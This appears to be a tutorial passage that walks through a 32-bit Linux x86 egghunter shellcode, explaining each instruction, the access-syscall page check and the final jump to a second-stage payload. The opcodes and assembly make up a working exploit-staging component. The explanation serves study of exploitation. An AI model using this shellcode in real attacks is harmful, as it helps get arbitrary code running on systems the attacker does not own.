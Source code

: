 #### Breaking down the assembly
The edx register is zeroed out as it will be tracking the memory locations that we'll be comparing our egg with.  When we find it we will jump to EDI where the shellcode should reside.
```nasm
00000000  31D2              xor edx,edx
```

The next two instructions will allow us to move up a full PAGE_SIZE.  When we check for access, it will apply for the entire memory segment so if it fails then there is no need to continue check bytes.  On my system, I checked the page size via the command ```getconf PAGE_SIZE``` which yielded ```4096``` which is why ```0xfff``` would make sense.
```nasm
00000002  6681CAFF0F        or dx,0xfff
00000007  42                inc edx
```

We are loading the effective address of edx plus 4 bytes into ebx.  This is in preparation of the upcoming **access** check which will be performed against this memory location.
```nasm
00000008  8D5A04            lea ebx,[edx+0x4]
```

The system call for **access** is 33 so the hex conversion of this is 0x21 of which we push to the stack and immediately pop back onto eax to prepare for the system call.
```nasm
0000000B  6A21              push byte +0x21
0000000D  58                pop eax
0000000E  CD80              int 0x80
```

The result of the **access** check is compared with 0xf2 which is the low byte of the EFAULT return value (the address points outside of the accessible address space).  If the value matches then we don't have access to this memory page and should skip over it; thus we jump back to the second instruction of the egghunter which moves us a page ahead.
```nasm
00000010  3CF2              cmp al,0xf2
00000012  74EE              jz 0x2
```

At this point we load the egg value into eax, and move edx into edi (which allows for the use of the scasd instruction which compares eax with dword at edi then set status flags).
```nasm
00000014  B890509050        mov eax,0x50905090
00000019  89D7              mov edi,edx
0000001B  AF                scasd
```

If there is no match then it jumps back to increment edx to check the next the next 4 bytes.  If it does match then it does a second check of the next 4 bytes after the match to see if we have the full 8 byte egg.
```nasm
0000001C  75E9              jnz 0x7
0000001E  AF                scasd
0000001F  75E6              jnz 0x7
```

Finally, upon a successful match, edi should be now pointing to the first byte of the second stage payload.  We jump to that location to allow execution of the second stage payload.
```nasm
00000021  FFE7              jmp edi
```
